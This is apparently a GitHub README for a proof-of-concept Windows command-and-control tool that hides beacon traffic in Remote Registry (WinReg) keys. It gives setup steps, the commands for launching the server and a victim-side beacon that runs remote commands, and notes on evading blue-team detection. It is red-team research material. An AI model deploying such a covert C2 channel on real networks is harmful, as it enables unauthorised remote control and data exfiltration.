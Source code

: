 # Everything can be a shell... An asynchronous shell at least...


### Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)  

*Also, at this moment, the repository only contains a single shell based on Windows Registry keys. However, I do hope to add more in the future.*  

### The Concept
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems and to keep the SOC on its toes. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

# Shell 1: C2 using Windows registry keys

## Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

## Demonstration:
https://www.youtube.com/watch?v=jOPCbK-WF1M: The C2 server is running on the left while the beacon is on the right

## How it works:  
1. When the server starts, the Remote Registry Service is enabled and started. 
2. A registry key HKLM\Software\RegistryC2\\<user-defined> is created along with the following values: cmd, output & sleep. The user-defined registry key is specific to a single beacon and could be compared to setting up a listener.
3. Read/Write permissions are then set for the user "Everyone" on this newly created registry key.
4. Permissions are likewise set on the key: HKLM\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (Note: On exiting/closing the server, these permissions are removed again.) 
5. When executing the beacon on the victim machine, it will connect to the C2 server using the WinReg protocol, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When the timer is up, the client checks-in and executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.
  
## Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
Example: RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
Example: RegC2Client.exe ws01 victim01
```

**Since this is a PoC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


## Screenshots:
**Starting the server:**  
Below, the server is started with the argument "victim01". The Remote Registry Service is attempted to be started, and the necessary permissions are put in place. The Registry key HKLM\Software\RegistryC2\victim01 is created with its necessary values: cmd, output & sleep.  
<img src="https://user-images.githubusercontent.com/35890107/186360543-a9bf7634-ea0d-4a0c-a9e5-4956701e0af3.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Permissions are set:**  
Special permissions are set for "Everyone" on the Registry key "RegistryC2\victim01".  
<img src="https://user-images.githubusercontent.com/35890107/186360608-0ac3a430-912b-4a19-824d-3cfdedb5201b.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Beacon running on client:**  
The beacon is started on the victims machine. The beacon has updated its sleep-timer, found the command to execute and posted the result back to the C2-server.  
<img src="https://user-images.githubusercontent.com/35890107/186356461-715947b2-5926-40fe-9d9f-2264ebe20476.png" width=30% height=30%>
&nbsp;  
&nbsp;  
**Output is posted back to the server:**  
<img src="https://user-images.githubusercontent.com/35890107/186360638-91884a40-eaa8-4169-a148-95d14b26b894.png" width=60% height=60%>  
&nbsp;  
&nbsp;  
**Another command is executed:**  
<img src="https://user-images.githubusercontent.com/35890107/186360670-a328752d-8221-4811-8ae1-0453c211ff03.png" width=60% height=60%>  
&nbsp;  
&nbsp;  
**Exiting server:**  
The server is being closed and the Registry keys are no longer available.  
<img src="https://user-images.githubusercontent.com/35890107/186360706-dce99907-6027-4bad-abc4-ade26429fe41.png" width=60% height=60%>


## How does it look in Wireshark? 
Well, it's not pretty. First, protocols are being negotiated using SMB and a connection is made for IPC$ followed by a request for "winreg".    
<img src="https://user-images.githubusercontent.com/35890107/186396507-e940f94e-feea-4e72-b0b7-8041fe696377.png" width=80% height=80%>
&nbsp;  
&nbsp;  
  
Scrolling down, the protocols are switched to DCERPC and WINREG. We also see a "QueryValue" request and response.  
<img src="https://user-images.githubusercontent.com/35890107/186397638-300e0e07-c927-4a96-833f-bcb7499cc8aa.png" width=80% height=80%>
&nbsp;  
&nbsp;  
  
Interestingly, on examining the Winreg protocols QueryValue, we see that all the data is placed in an "Encrypted stub data" meaning that commands between the C2 and the beacon are encrypted by default, which is quite nice.  
<img src="https://user-images.githubusercontent.com/35890107/186397649-2033e1ca-a853-4ab0-a2b2-ef1c55e8c711.png" width=80% height=80%>

## Conclusion
Using the WinReg protocol for command and control purposes will undoubtly look unfamiliar to a blue team. On a network where Remote Registry is not used at all, this will definitly stand out; however it might also go completely undetected due to a lag of alerts on this particular protocol. Lastly, it's pretty convenient that the data is encrypted by default making it even more difficult for a blue-team to figure out what has been exfiltrated. Now, such logs could ofc. be found elsewhere. 

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the client needs to be permitted to make changes to a user-defined registry key.

**Limitations:** 
Since the traffic is based on RPC and SMB, it should only really be suitable for lateral movement on local networks. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on other keys. Consequences could potentially be dire :D
